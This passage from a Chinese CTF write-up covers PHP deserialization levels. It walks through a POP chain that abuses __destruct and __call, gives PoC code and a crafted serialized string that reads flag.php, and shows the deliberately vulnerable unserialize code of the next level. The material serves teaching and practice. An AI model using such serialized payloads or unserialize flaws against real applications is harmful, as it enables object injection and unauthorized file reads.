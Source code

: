 这里用_call魔术方法，这个方法在调用不不存在的方法时会触发，在这里是调用$project()方法，可以将其设为不存在的方法，让其调用my类的_call 方法，来输出flag，下面是poc的构造：

```php
<?php
class you
{
    private $body;
    private $pro;
    function __construct(){
        $this->body=new my();
        $this->pro='yourname';
    }
    function __destruct()
    {
        $project=$this->pro;
        $this->body->$project();
    }
}

class my
{
    public $name='myname';

    function __call($func, $args)
    {
        if ($func == 'yourname' and $this->name == 'myname') {
            include('flag.php');
            echo $flag;
        }
    }
}
$p=new you();
echo serialize($p);
//大写S
//O:3:"you":2:{S:9:"\00you\00body";O:2:"my":1:{s:4:"name";s:6:"myname";}S:8:"\00you\00pro";s:8:"yourname";}
?>
```



#### 8. 第八关

第八关代码如下：

```php
<?php
highlight_file(__FILE__);
function filter($name){
    $safe=array("flag","php");
    $name=str_replace($safe,"hack",$name);
    return $name;
}
class test{
    var $user;
    var $pass='daydream';
    function __construct($user){
        $this->user=$user;
    }
}

$param=$_GET['param'];
$profile=unserialize(filter($param));
if ($profile->pass=='escaping'){
    echo file_get_contents("flag.php");
}
```